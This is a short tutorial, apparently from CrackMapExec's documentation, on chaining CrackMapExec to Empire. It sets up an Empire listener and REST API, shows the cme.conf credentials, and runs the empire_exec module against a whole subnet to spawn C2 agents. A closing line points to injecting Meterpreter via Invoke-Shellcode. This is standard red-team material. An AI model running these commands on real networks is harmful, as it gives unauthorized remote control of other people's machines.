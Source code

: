 

## Crackmapexec to Empire agent

First setup an Empire listener:
```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

Start up Empire's RESTful API server:
```
#~ python empire --rest --user empireadmin --pass Password123!

[*] Loading modules from: /home/byt3bl33d3r/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```
The username and password that CME uses to authenticate to Empire's RESTful API are stored in the cme.conf file located at ~/.cme/cme.conf:
```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```
Then just run the empire_exec module and specify the listener name:
```
#~ crackmapexec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```
# Crackmapexec to Meterpreter
We can use the metinject module to directly inject meterpreter into memory using PowerSploit's Invoke-Shellcode.ps1 script.
